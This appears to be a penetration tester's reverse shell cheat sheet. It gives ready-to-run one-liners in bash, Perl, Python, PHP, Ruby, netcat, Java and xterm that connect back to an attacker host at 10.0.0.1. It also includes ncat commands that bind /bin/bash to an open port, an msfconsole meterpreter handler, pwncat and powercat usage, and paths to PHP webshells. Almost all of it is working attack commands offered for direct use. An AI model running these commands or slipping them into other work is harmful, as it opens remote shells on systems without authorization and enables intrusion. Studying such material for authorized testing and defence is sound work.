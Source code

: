 
## Reverse shell cheat sheet

- [[#Bash]]
- [[#PERL]]
- [[#Python]]
- [[#PHP]]
- [[#Ruby]]
- [[#Netcat]]
- [[#Java]]
- [[#xterm]]
- [[#Pwncat]]
- [[#msfconsole]]
- [[#Powercat]]


### [[Bash]]

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

````bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
````

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

````perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

````python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

````php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
````

PHP webshells:
https://github.com/heiswayi/simple-php-shell
/usr/share/SecLists/Web-Shells/laudanum-0.8/php/shell.php
usr/share/webshells/php/php-reverse-shell.php
If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

````ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

````nc
nc -e /bin/sh 10.0.0.1 1234
````

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

## Ncat
Ncat's vast number of features there is the ability to chain Ncats together; redirection of TCP, UDP, and SCTP ports to other sites; SSL support; and proxy connections via SOCKS4, SOCKS5 or HTTP proxies (with optional proxy authentication as well). Some general 
 principles apply to most applications and thus give you the capability of instantly adding networking support to software that would normally never support it.

```bash
Connect to example.org on TCP port 8080.
    ncat example.org 8080
	
Listen for connections on TCP port 8080.
    ncat -l 8080
	
Redirect TCP port 8080 on the local machine to host on port 80.
    ncat --sh-exec "ncat example.org 80" -l 8080 --keep-open
	
Bind to TCP port 8081 and attach /bin/bash for the world to access freely.
    ncat --exec "/bin/bash" -l 8081 --keep-open
	
Bind a shell to TCP port 8081, limit access to hosts on a local network, and limit the maximum number of simultaneous connections to 3.
	ncat --exec "/bin/bash" --max-conns 3 --allow 192.168.0.0/24 -l 8081 --keep-open

Connect to smtphost:25 through a SOCKS4 server on port 1080.
    ncat --proxy socks4host --proxy-type socks4 --proxy-auth joe smtphost 25
	
Connect to smtphost:25 through a SOCKS5 server on port 1080.
    ncat --proxy socks5host --proxy-type socks5 --proxy-auth joe:secret smtphost 25
	
Create an HTTP proxy server on localhost port 8888.
    ncat -l --proxy-type http localhost 8888
	
Send a file over TCP port 9899 from host2 (client) to host1 (server).
    HOST1$ ncat -l 9899 > outputfile
    HOST2$ ncat HOST1 9899 < inputfile
	
Transfer in the other direction, turning Ncat into a “one file” server.
    HOST1$ ncat -l 9899 < inputfile
    HOST2$ ncat HOST1 9899 > outputfile
```


### Java

````java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

[Untested submission from anonymous reader]

### [[Pwncat]]

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```



### msfconsole
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 9009; exploit"
```

### [[Powercat]]
**Listener + client**

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000

```



### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip